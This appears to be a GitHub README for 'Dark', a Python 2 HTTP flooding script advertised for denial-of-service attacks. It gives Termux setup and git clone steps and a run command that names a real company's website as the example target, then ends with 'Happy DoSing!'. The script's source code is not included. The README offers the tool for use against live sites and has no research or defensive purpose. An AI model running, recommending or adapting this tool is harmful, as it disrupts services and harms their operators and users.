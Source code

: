 ## DARK
#### A http cl13nt 0v3rl0ad oythin script to perform DoS Attack.


Subscribe to my YT channel KrakinzLab
Link:- 


Usage:- 
Install termux from Fdroid / Playstore

```sh
apt update && apt upgrade
pkg install python2
git clone https://github.com/krakinz/Dark.git
cd Dark
chmod +x dark.py
python2 dark.py "link"

Example:- python2 dark.py safaricom.com
```
If the result come RESPONSE CODE 500 then your DoS attack is successful.
Handshake!!
But some websites blocks you ip which may also show RESPONSE CODE 500
Happy DoSing !
-----END------

<img href="/darkling.png">
